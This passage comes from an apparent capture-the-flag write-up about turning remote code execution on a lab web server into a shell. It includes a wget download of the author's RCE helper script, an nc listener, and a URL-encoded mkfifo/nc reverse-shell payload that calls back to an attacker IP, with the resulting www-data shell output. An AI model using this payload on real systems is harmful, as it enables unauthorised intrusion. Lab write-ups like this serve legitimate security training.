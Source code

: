 We can just execute a reverse shell payload, in order to gain a shell, but I have created a basic bash script that give us a shell that decode the `base64` string automatically, you can check it at my [Github](https://github.com/Ne4rBy/RCETranslator) page.

```bash
wget https://raw.githubusercontent.com/Ne4rBy/RCETranslator/refs/heads/main/RCETranslator.sh
```

Once with the tool, you have to change the target URL and it's ready to use.

```bash
❯ ./RCETranslator.sh
    ____  ____________   ______                      __      __            
   / __ \/ ____/ ____/  /_  __/________ _____  _____/ /___ _/ /_____  _____
  / /_/ / /   / __/      / / / ___/ __ `/ __ \/ ___/ / __ `/ __/ __ \/ ___/
 / _, _/ /___/ /___     / / / /  / /_/ / / / (__  ) / /_/ / /_/ /_/ / /    
/_/ |_|\____/_____/    /_/ /_/   \__,_/_/ /_/____/_/\__,_/\__/\____/_/     
                                                                           
Created by: Samuel Laveau (aka Ne4rby)

CMD-> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
CMD-> 
```

Note: ***I know it's a bit useless since we can gain a real shell, but i wanted to practice a bit my bash script***

We can now gain a shell, let's start by setting a listener at port **443**.

```bash
❯ nc -nvlp 443
```

Once with the listener settled, let's execute the following URL-Encoded payload.

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.14.99.119%20443%20%3E%2Ftmp%2Ff
```

We should have received a shell.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.81.200] 46632
bash: cannot set terminal process group (808): Inappropriate ioctl for device
bash: no job control in this shell
www-data@myheroacademia:/var/www/html/assets$ whoami
www-data
```

---
## Shell as www-data

### TTY Treatment 
